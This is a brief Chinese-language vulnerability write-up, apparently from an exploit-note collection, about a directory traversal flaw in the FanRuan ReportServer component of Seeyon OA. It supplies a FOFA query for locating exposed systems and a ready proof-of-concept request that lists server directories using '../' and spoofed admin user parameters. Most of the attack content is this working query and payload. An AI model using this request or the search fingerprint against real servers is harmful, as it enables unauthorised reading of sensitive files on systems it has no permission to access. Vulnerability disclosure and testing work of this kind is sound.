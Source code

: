# 致远OA 帆软组件 ReportServer 目录遍历漏洞

## 漏洞描述

致远OA 帆软组件 ReportServer接口存在目录遍历漏洞，攻击者通过漏洞可以获取服务器敏感信息

## 漏洞影响

```
致远OA 帆软组件
```

## FOFA

```
title="致远A8-V5协同管理软件 V6.1sp1"
```

## 漏洞复现

登录页面

![image-20220824142626725](./images/202208241426793.png)

验证POC

```
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![image-20220824142642510](./images/202208241426552.png)